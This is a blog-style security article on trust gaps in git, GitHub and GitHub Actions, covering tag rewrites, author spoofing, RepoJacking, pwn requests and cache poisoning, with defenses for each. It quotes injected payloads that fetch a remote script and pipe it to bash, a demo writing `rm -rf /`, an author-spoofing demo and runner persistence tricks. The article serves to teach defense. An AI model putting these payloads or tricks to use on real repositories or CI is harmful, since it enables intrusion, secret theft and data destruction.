









## Intro: Why we got burned twice by the same trick

On 2025-03-14, the GitHub Action `tj-actions/changed-files` was hijacked. 23,000 repositories were affected. Base64-encoded AWS / GitHub / PyPI tokens were dumped into public CI logs. CVE-2025-30066.

About a year later, on 2026-03-19, `aquasecurity/trivy-action` was hit by almost the same playbook. Of 76 version tags, 75 were rewritten to point at attacker-controlled commits.

Every news headline says "supply chain attack". But if you put the two incidents side by side, the spot that got attacked is the same exact thing: **the `v44` portion of `uses: org/action@v44`**, i.e. the commit a git tag is currently pointing to.

Did you ever quietly assume that a git tag is an immutable fingerprint? It is not. It is a label. You can force-push it. You can rewrite it. The fact that GitHub's UI says "v44" gives you no guarantee that this v44 points to the same commit it pointed to last week.

This gap is the attack surface. And it is not just a tag issue. It comes from the fact that **the git protocol is designed on the assumption that there is trust between humans and repositories**. Authors can self-identify. Submodule paths are trusted. Deleted repos are not actually deleted.

In this article I dissect that trust gap across three layers.

1. **Layer 1: the git protocol itself** (tag, author, SHA-1, submodule)
2. **Layer 2: the GitHub platform** (RepoJacking, CFOR, dangling commits)
3. **Layer 3: GitHub Actions** (pwn request, script injection, cache poisoning, self-hosted runner)

At the end I provide hands-on demos you can run locally, plus a defense matrix that maps each attack to its mitigations.

---

## Prerequisites: terminology

Before diving in, here are the concepts that come back over and over.

- **Git object**: git stores every file / tree / commit as an object keyed by SHA-1 hash under `.git/objects/`. The whole system runs on the assumption that "if the hash matches, the content matches".
- **Tag**: a "label" pointing to a specific commit object SHA. `refs/tags/v1.0` is just a file containing a SHA, and it can be rewritten later (`git push --force --tags`).
- **Annotated tag vs lightweight tag**: the former has its own object and can be signed; the latter is just a ref. Most `@v1`-style references in GitHub Actions are lightweight tags.
- **Commit author / committer**: metadata inside the commit object. You set it freely with `user.name` and `user.email`. Git itself does not verify it.
- **Verified badge**: shown by the GitHub UI when "the commit has a GPG / SSH / S/MIME signature, and the key is registered to the author's GitHub account". **Unsigned commits show nothing** unless vigilant mode is on.
- **`pull_request_target`**: a workflow trigger in GitHub Actions. Unlike `pull_request`, **it runs in the target repo's context and has access to secrets**. The intent is "let trusted automation (linters / labelers) run on outside-contributor PRs", but it causes huge incidents when misused.
- **CFOR (Cross Fork Object Reference)**: forks share an object store with their parent, so a commit pushed to a fork is reachable from the parent repo's URL. GitHub has classified this as "by design".

That is enough to read the rest.

---

## Layer 1: the git protocol itself is trust-based

Git is a distributed VCS designed around "we don't agree on things we can't agree on". Conversely, an object you create locally is treated as fact. There is no protocol-level mechanism for a central server to validate content. We will look at this gap from four angles: **what a tag points to (1.1)**, **the author's identity (1.2)**, **SHA-1 identity (1.3)**, and **arbitrary file writes via submodules (1.4)**.

### 1.1 A git tag is just a label (tag rewrite)

Back to tj-actions and Trivy. The moment you write `uses: tj-actions/changed-files@v44`, every workflow run fetches "the commit that v44 currently points to". The commit a tag points to is not fixed in advance: **it is whatever value is on the server at run time**.



Git does not forbid moving a tag. `git push --force --tags` is enough. GitHub does not enable tag protection by default either.

The fix is straightforward: **pin to a commit SHA instead of a tag**.

```yaml
- uses: tj-actions/changed-files@a284dc1aef0bee70773b0f93ddaeb1e3ea9aa6ff
```

A 40-char SHA is immutable as long as you can't collide SHA-1. But pinning alone is not enough: if the SHA you pinned was malicious from the start, you are still owned. So pinning needs to be combined with signature verification via **Sigstore** or **SLSA Provenance**. Sigstore is a signing infrastructure for OSS that issues short-lived certificates from an OIDC identity and writes the signature to a public log (Rekor) as one operation. SLSA Provenance attaches a signed JSON document to a build artifact recording "which source / builder / inputs produced it"; at level 3 and above it also requires tamper-resistant builders. Sigstore's git-signing CLI **gitsign** lets you sign commits and tags with the same machinery.

GitHub added a feature called **Immutable Releases** in 2025 (Public Preview 2025-08-26, GA 2025-10-28). When enabled, the moment you cut a release the tag is locked to a specific commit, and you cannot move the tag, swap release assets, or delete the release. Each release also gets a signed **release attestation** so consumers can verify authenticity. Incidents like tj-actions and Trivy cannot happen by design if the Action maintainer enables this. The catch: **enablement is on the maintainer side**; consumers cannot force it.

### 1.2 Commit author is self-declared

Now consider the trust around commit author. Look at this sequence.

```bash
git -c user.name='Linus Torvalds' \
    -c user.email='torvalds@linux-foundation.org' \
    commit -m "fix: typo"
git push origin main
```

That is enough for the GitHub UI to show the commit **with Linus Torvalds's avatar and a link to his profile**. GitHub just looks at the email field on the commit object and pulls the profile of "the account that has registered this email".



This is not a GitHub bug; it is the spec. The git protocol itself does not verify authors.

The only real defense is **commit signing + the Verified badge**. Sign with `git commit -S` using GPG / SSH, register the key on your GitHub account, and the commit gets a "Verified" badge. Unsigned commits show nothing.

The attacker's next move from here is to **rely on readers ignoring the absence of a Verified badge**. Most developers do not check for the green check on every commit. Per a GitHub study (2025), repositories that adopt commit signing are still a minority, and a large fraction of commits land "unsigned = unverified".

GitHub has a feature called **vigilant mode** that forces an "Unverified" badge on unsigned commits. Even sneakier is the **co-authored-by trailer**: write `Co-authored-by: Some Person <email>` in the commit message and, if the main author is signed, GitHub shows "Partially Verified" while still attributing the co-author name to anyone you want.

### 1.3 SHA-1 collision (SHAttered)

Git's notion of object identity is SHA-1. SHA-1 was practically broken in 2017 by the SHAttered research from Google and CWI Amsterdam. Generating two different PDFs with the same SHA-1 cost about \$110,000 of compute at the time.

Can you collide a git commit with this? Not really, in practice. The reason: git prefixes a header like `blob <size>\0` before hashing an object, so the header-prefixed blob and the raw PDF are different bytestreams. Running `git add` on the SHAttered PDFs does not produce a collision. You would need to redo the same collision attack against git's object format, and that cost is still in the "computationally hard" zone.

GitHub.com introduced **SHA-1 collision detection** in 2017, and objects with the SHAttered attack signature are rejected at push time. Git itself adopted the same detection logic. Marc Stevens published a library called [`sha1collisiondetection`](https://github.com/cr-marcstevens/sha1collisiondetection) (commonly "sha1dc"), git imports it as a submodule, and replaces its built-in SHA-1 implementation with it. At nearly the cost of a normal SHA-1 computation, it returns a different hash or aborts when it detects collision-attack patterns.

Separately, git is moving toward **SHA-256**. You can create a SHA-256 repo with `git init --object-format=sha256`. But most hosting providers, including GitHub.com, do not accept SHA-256 repos for push, so practical adoption is far off.

The point worth taking away: **a SHA-1 collision is not an immediate threat**, but unlike the other attacks above (tag rewrite, author spoofing) it is **the mathematical foundation of "pin by commit SHA"** as a defense. If SHA-1 is fully broken, the SHA-pinning strategy below is also defeated. The SHA-256 migration is long-term insurance.

### 1.4 RCE via submodule (CVE-2024-32002, CVE-2025-48384)

In 2024 and 2025, two CVEs in a row let `git clone` itself produce RCE. Both go through submodules.

**CVE-2024-32002** abuses case-insensitive filesystems (macOS / Windows). The malicious repo contains both a submodule path and a symlink to that path. A case-insensitive filesystem cannot distinguish them, so during checkout, files that should be written into the worktree are written through the symlink into `.git/hooks/post-checkout`. The next git command triggers the hook and runs arbitrary code. Setting `git config --global core.symlinks false` avoids it.

**CVE-2025-48384** is more clever: it injects `\r` (CR) into the path field in `.gitmodules`. Git **strips CRLF on read but does not quote on write**, so CR creates an asymmetry between read and write. Combined with a symlink, this turns into arbitrary file write and a hook is dropped. Reproducible on Linux / macOS.



The mitigation is to use a **patched git** (v2.43.7, v2.44.4, v2.45.4, v2.46.4, v2.47.3, v2.48.2, v2.49.1, v2.50.1 or later). Also avoid `--recursive` clones of repos you don't trust. When CI builds external PRs, clone with `--no-recursive` first and review the submodule contents manually.

---

## Layer 2: GitHub-platform persistence bugs

From here we leave bare git and look at the convenience features GitHub the hosting service added on top, which backfire. Username / repo rename leads to **RepoJacking**, fork object-store sharing leads to **CFOR**, and force-push history overwrites lead to **secret extraction from dangling commits**.

### 2.1 RepoJacking

On GitHub you can rename or delete an org / user. But **all the code that depended on that URL stays put**.

For example, suppose `myorg/foo` has many `go get github.com/myorg/foo` consumers, and `myorg` is deleted. If an attacker registers `myorg` and creates a `foo` repo, **fetches against the old URL now resolve to the attacker's repo**.



GitHub protects names of popular repos with **namespace retirement**: once a repo passes a star threshold, the name is held back for some time after retirement. But the **race-condition bypass** Checkmarx published in 2024 used the timing gap between repo creation and username rename to skip retirement. That re-exposed over 4,000 packages.

Defense is to **pin dependencies to a commit SHA**, plus run a **dependency proxy / vendor** so dependency code is mirrored in your own copy. Go modules' `GOPROXY=https://proxy.golang.org` is close in spirit.

### 2.2 Cross-Fork Object Reference (CFOR)

This one surprises people who learn it for the first time. Consider this scenario.

1. I own `myorg/private-repo`.
2. Collaborator A forks it as `A/private-repo-fork`.
3. A accidentally pushes `~/.aws/credentials` to the fork.
4. A panics and deletes the fork.
5. **The commit A pushed is still visible from my `myorg/private-repo` URL**.



The reason is a GitHub optimization: forks share an object pool with their parent. When A deletes their fork, the commit object is still in the parent, so **`github.com/myorg/private-repo/commit/<SHA>` returns it**.

The catch is "how do you learn the SHA?". Per Truffle Security, the git protocol allows references by **short SHA (4 chars minimum)**. The GitHub UI also resolves commits via short-SHA URLs, so 4 chars = 16^4 = 65,536 attempts of brute force is enough to find a commit. Truffle reports finding **40 valid API keys** in deleted forks of a major AI company.

GitHub's response when reported was "intentional design decision". The behavior is staying.

The defense is heavy.

- **Treat the deleted fork as a leak and rotate the secret**.
- When experimenting on a private fork tied to a public repo, double-check what you `git push`.
- Enable secret scanning (push protection) at the org level.

### 2.3 Dangling commits / oops commits

Force push only "removes a commit from history"; the object itself remains both locally and on the remote.



**GitHub Archive** (gharchive.org) is a third-party archive that has been publishing GitHub's public events API as hourly time-ordered JSON dumps since 2011. It contains every public push / fork / PR event. `PushEvent` carries `before` and `after` SHAs, so collecting the ones with `force=true` gives you "the list of SHAs of dropped commits". Truffle Security's **Force Push Scanner** pulls `before SHA` from this archive and fetches each commit in turn to look for secrets.

Scanning all dangling commits since 2020 with this technique, the report by Sharon Brizinov and Truffle Security found a **GitHub PAT with admin permissions over the Istio repositories**, plus large quantities of valid AWS / MongoDB credentials and API tokens. They collected about 25,000 USD in bug bounties (tokens were revoked after responsible disclosure). **Already-rotated secrets are obviously useless**, but the dominant pattern was secrets that nobody rotated after the original push.

Defense:

- **Rotate after pushing a secret** (deleting from history is not enough).
- Add a local `gitleaks` / `trufflehog` hook before push.
- Enable GitHub's **secret scanning push protection** (org setting).

---

## Layer 3: GitHub Actions

That covered "raw git and GitHub". GitHub Actions stacks **a CI execution environment + secrets + tokens** on top of all of that. The trust gaps in Layers 1 and 2 get amplified into "automated privilege escalation" on Actions. Concretely, tag rewrite becomes mass distribution to every consumer, `pull_request_target` becomes a hole that hands secrets to outside PRs, `${{ }}` expansion turns a branch name into RCE, and the cache becomes an infection vector via main branch.

### 3.1 Tag rewrite, amplified by CI (tj-actions and Trivy)

The tj-actions and Trivy incidents at the top of this article are Layer 1.1 (tags are labels) projected onto the trust model of Actions.

Side by side:

| Item            | tj-actions/changed-files (2025-03)                  | aquasecurity/trivy-action (2026-03)                    |
| --------------- | --------------------------------------------------- | ------------------------------------------------------ |
| CVE             | CVE-2025-30066                                      | GHSA-69fq-xp46-6x23                                    |
| Affected repos  | ~23,000                                             | ~10,000 (Trivy alone)                                  |
| Tags rewritten  | ~45 (v1 through v45, all of them)                   | 75 of 76                                               |
| Exposure window | ~15 hours                                           | ~12 hours                                              |
| Entry point     | leaked token from reviewdog/action-setup            | reused credentials from the first compromise           |
| Payload         | dump secrets from runner memory as base64 to stdout | tampered entrypoint.sh that loads a credential stealer |
| Detection       | StepSecurity flagged the anomaly                    | Trivy maintainers disclosed the incident               |

Some terminology from the table. **reviewdog/action-setup** is a different Action that tj-actions depended on; the `GITHUB_TOKEN` leaked there gave the attacker write access to tj-actions's commits. **StepSecurity** is a SaaS vendor that monitors GitHub Actions supply-chain behavior at runtime; in the tj-actions case they were the first to flag the anomaly of "this workflow is dumping base64 to a public log". For Trivy, the entry point is described as "reusing credentials leaked in the first compromise", i.e. the attacker rotated stolen credentials from one Action breach into another (per CrowdStrike's post-mortem, an automated bot called `hackerbot-claw` was doing the reuse).

What made Trivy worse is that this `hackerbot-claw` was scanning many repos in parallel. It kept finding repos with broken `pull_request_target` setups, stealing tokens, and rewriting tags on the next victim. **It chains Layer 3.2 (pwn request) as the entry point with Layer 1.1 (tag rewrite) as the amplifier**.

### 3.2 Pwn Request (the `pull_request_target` trap)

GitHub Actions has two PR triggers, `pull_request` and `pull_request_target`. The difference is critical.

| Item              | `pull_request`                        | `pull_request_target`                  |
| ----------------- | ------------------------------------- | -------------------------------------- |
| Code that runs    | PR HEAD (= submitter's code)          | base branch (= existing code)          |
| Token permissions | read-only (`GITHUB_TOKEN` restricted) | base-side, with secrets access         |
| Use case          | tests / builds                        | linter / labeler / auto-comments       |
| Risk              | low                                   | **fatal if you check out the PR code** |

Incidents typically come from a workflow shaped like this.

```yaml
# .github/workflows/format.yml (vulnerable)
on: pull_request_target
jobs:
  format:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4
        with:
          ref: ${{ github.event.pull_request.head.ref }}
      - run: npm install && npm run format
      - run: git push  # push the formatted result back to the PR
```

It checks out PR code (= attacker code) and runs it directly, while still sitting in the `pull_request_target` context that can read base-branch secrets. At `npm install`, the attacker's `package.json` `postinstall` runs and exfiltrates secrets.

This is what hit **Ultralytics YOLO** in December 2024. The branch name the attacker submitted as a PR was this:

```text
openimbot:$({curl,-sSfL,raw.githubusercontent.com/.../file.sh}${IFS}|${IFS}bash)
```

Ultralytics's workflow inlined `${{ github.head_ref }}` into a bash script, so the branch name was evaluated by the shell and pulled in a remote script. An XMRig Monero miner was injected into the PyPI release and ran on thousands of hosts.



Defense:

- **Don't check out PR HEAD under `pull_request_target`**. If you absolutely must, sandbox it explicitly.
- Run formatters / linters under `pull_request` against base code only.
- Default external PRs to `permissions: read-all`.
- If you really need `pull_request_target`, gate it with **an `if` condition that limits to trusted users** first.

### 3.3 Script Injection

Adjacent to Pwn Request is shell injection via `${{ }}`. GitHub Actions performs **string substitution on `${{ ... }}` before the shell runs**, so any shell metachar in a PR title or branch name turns into arbitrary code execution.

```yaml
# vulnerable
- run: |
    echo "PR title: ${{ github.event.pull_request.title }}"
```

If the PR title is `"; curl evil.sh | bash; echo "`, the resulting shell is:

```bash
echo "PR title: "; curl evil.sh | bash; echo ""
```

The same works on branch names. `zzz";echo${IFS}"hello";#` is a **valid branch name**, and `${IFS}` expands to whitespace.

Defense:

- Pass untrusted values **via environment variables**:

```yaml
- env:
    PR_TITLE: ${{ github.event.pull_request.title }}
  run: echo "PR title: $PR_TITLE"
```

- Or **don't expand `${{ }}` directly into bash**. Use structured inputs like `actions/github-script`.

GitHub Security Lab's `actionlint` and Semgrep rules detect this pattern.

### 3.4 Cache Poisoning

`actions/cache` saves and restores dependency caches to shorten build time. The problem is that **cache scope is per repository**, and **a cache written from main branch is readable by every branch and every workflow**.



In 2024 Adnan Khan published a PoC malware called **Cacheract** that automates poisoning of GitHub Actions cache (`actions/cache`). The cache is keyed per-repo and stores things like `node_modules/`; another workflow run restores by the same key. Once Cacheract runs on main once, it writes itself back into the artifact and persists in the cache. Every subsequent workflow run picks up the malicious code on restore and re-infects automatically.

In 2025 GitHub tightened cache eviction policy. The 2025-09-29 changelog announced a switch to **hourly eviction**: when a repo passes the 10 GB cap, the oldest entries are evicted immediately (it used to be every 24 hours). Faster eviction makes it easier for an attacker to **push a large poisoned entry that pushes the legitimate cache out, then drop in their own version**, all within a single workflow run. Note that the 2025-11-20 changelog moved in the opposite direction with "**you can pay to exceed the 10 GB cap**", but in attack-surface terms the eviction speedup matters more.

Adnan published a PoC where this technique came close to compromising **Angular's dev infra**.

Defense:

- Strictly review pushes to main branch (this is the actual control).
- Include the commit SHA in the cache key.
- Guarantee build reproducibility with SLSA Provenance (the spec records which source / builder / inputs produced an artifact as a signed JSON. Inputs leaked in via cache will show up as a provenance mismatch).

### 3.5 Self-hosted runner backdoors

GitHub Actions supports two kinds of runners: GitHub-managed and self-hosted. The latter runs on your own VM or server, with broader network access and privileges.

If you use a self-hosted runner on **a public repository**, an outside PR can execute code on the runner. This bites OSS projects fairly often. As one example, a 2022 Praetorian [research post](https://www.praetorian.com/blog/self-hosted-github-runners-are-backdoors/) demonstrated, against large OSS including TensorFlow, that you could plant a runner backdoor from a malicious PR.

The scary part is the **persistence techniques**.

1. **`RUNNER_TRACKING_ID=0`**: the runner kills processes with a matching tracking ID at job end. Rewrite it to `0` and your process survives the cleanup.
2. **Detached docker container**: a container started with `docker run -d` keeps running after the job ends.
3. **Non-ephemeral runner**: by default runners are not single-use. Once you plant something, it survives across runs.



Sysdig published the details in January 2026. Because the runner only sends traffic to `github.com`, network egress filters are nearly blind to it.

Defense:

- **Don't use self-hosted runners on public repos** (this is the rule).
- Run **ephemeral runners** (`--ephemeral` flag, single-use per job).
- Run runners inside dedicated Kubernetes Pods (Actions Runner Controller).
- Default runner to `permissions: { contents: read }`.

---

## Hands-on: attack demos you can reproduce locally

Here are the parts that **fit inside a local docker setup**, as a small set of scripts. Running them yourself gives you the "wait, it's actually this easy?" feeling.

### Demo 1: tag rewrite

```bash
# Attacker: build a repo with two commits
mkdir attacker && cd attacker
git init -b main
echo "# Trusted action" > README.md
git add . && git commit -m "Initial good commit"
git tag v1.0
GOOD_SHA=$(git rev-parse HEAD)

# Create a malicious commit and slap the same tag on it
echo "rm -rf /" > evil.sh
git add . && git commit -m "Innocent change"
git tag -f v1.0
EVIL_SHA=$(git rev-parse HEAD)

git log --oneline --decorate
# Confirm v1.0 now points at the evil commit
```

Push to a remote with `git push --force --tags`. On the GitHub UI the release list still says `v1.0`, but **the commit it points to has been swapped**.

### Demo 2: commit author spoofing

```bash
mkdir spoof-demo && cd spoof-demo
git init -b main

# Commit as anyone you like
git -c user.name='Linus Torvalds' \
    -c user.email='torvalds@linux-foundation.org' \
    commit --allow-empty -m "Definitely from Linus"

git log --format='%an <%ae>'
# Linus Torvalds <torvalds@linux-foundation.org>
```

Push this to GitHub and the UI shows Linus's actual avatar. There is no Verified badge, but it is hard to notice at a glance.

